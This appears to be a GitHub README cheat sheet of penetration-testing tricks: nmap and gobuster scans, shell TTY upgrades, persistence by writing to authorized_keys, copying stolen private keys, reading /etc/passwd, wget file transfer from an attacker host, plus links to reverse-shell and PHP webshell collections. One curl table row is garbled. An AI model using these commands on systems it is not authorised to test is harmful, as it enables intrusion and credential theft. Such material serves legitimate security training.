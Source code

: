 # Basement Kids

Basement kids in their free time (always) are very creative and come up with this jar of tricks. We open 1 lock per 10 tips

## Nmap 

```
# Basic scan
nmap [IP]

# Now a deep scan on the open ports
nmap -sC -sV [IP] -pP1,P2,P3

# A full scan for hidden ports
nmap -sV -sC -p- -oN [FILE] [IP]

# Other useful scan
nmap -p- -sV -sC -A --min-rate 1000 --max-retries 5 -oN [FILE] [IP]

# With nse scripts
nmap -pP1 --script vun [IP]
```

Find the nse scripts in `/usr/share/nmap/scripts/`

More on nmap cheatsheet [here](https://www.tutorialspoint.com/nmap-cheat-sheet)

## Gobuster

Gobuster can bruteforce 3 things:

1. Dirs & files
    * `gobuster dir -u <url> -w <wordlist_file.txt> -x <file_extensions>`
2. DNS subdomains
    * `gobuster vhost -v -w <wordlist.txt> -u <url> -o <output_file.txt>`
3. Subdomains in a specific domain
    * `gobuster dns -d <domain> -w <word_list.txt> -i`

## Upgrading TTY

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ ^Z

$ stty raw -echo
$ fg

[Enter]
[Enter]
www-data@remotehost$ echo "upgraded TTY"
```

## SSH Keys

* If you have write access to `.authorized_keys` in remote machine
    1. Write your public key to this file
    2. Login with your passwd: `ssh user@remotehost`

* If you have read access to user's private key in remote machine
    1. Copy the `priv_key` to your machine
    2. Change permissions: `chmod 600`
    3. Login with this key: `ssh -i [priv_key] [IP]`

## Curl

| **Command** | **Description** |
| --------------|-------------------|
| `curl http://inlanefreight.com -v` | GET request with `cURL`, verbose |
| `curl http://inlanefreight.com -I` | GET headers only `cURL` |
| `curl http://admin:password@inlanefreight.com/ -vvv` | `cURL` Basic Auth login |
| `curl -u admin:password  http://inlanefreight.com/ -vvv` | Alternate `cURL` Basic Auth login |
| `curl -u admin:password -L http://inlanefreight.com/` | `cURL` Basic Auth login, follow redirection |
| `curl -u admin:password 'http://inlanefreight.com/search.php?port_code=us'` | `cURL` GET request with parameter |
| `curl -d 'username=admin&password=password' -L http://inlanefreight.com/login.php` | POST request with `cURL` |
| `curl -d 'username=admin&password=password' -L  http://inlanefreight.com/login.php -v` inlanefreight.com/login.php` | `cURL` with cookie file |
| `curl -H 'Content-Type: application/json' -d '{ "username" : "admin", "password" : "password" }'` | `cURL` specify content type |
| `curl -X OPTIONS http://inlanefreight.com/ -vv` | `cURL` OPTIONS request |
| `curl -X PUT -d @test.txt http://inlanefreight.com/test.txt -vv` | File upload with `cURL` |
| `curl -X DELETE http://inlanefreight.com/test.txt -vv` | DELETE method with `cURL` |

More on curl cheatsheet: https://devhints.io/curl

## Misc

When in the shell:

* Check the id and groups:
    * `id`
* Check the sudo permissions:
    * `sudo -l`
* Search for users:
    * `cat /etc/passwd`
* Transfer files from local to remote (or vica versa):
    * In local machine: `python -m http.server 6969`
    * In remote machine: `wget http://localIP:6969/file.sh`
* Check for read/write permission on `.ssh` dirs and files
* Check for backups, if read permissions
    * Read archives without extraction: `zcat archive.tar.gz`
* Check for permission on `cron.d` and `cron.daily`
* Running shell commands in vim:
    * `:!cat /etc/passwd`
* If no passwd sudo on binaries, check [GTFO bins](https://gtfobins.github.io/)

* [CyberChef](https://gchq.github.io/CyberChef/)

## Wordlists & webshell

* [Dirb wordlist](https://github.com/v0re/dirb/tree/master/wordlists)
* [Dirbuster wordlist](https://github.com/daviddias/node-dirbuster/tree/master/lists)
* [SecLists](https://github.com/danielmiessler/SecLists)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [Reverse shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [PHP webshell](https://github.com/tutorial0/WebShell/blob/master/Php/php-reverse-shell.php)







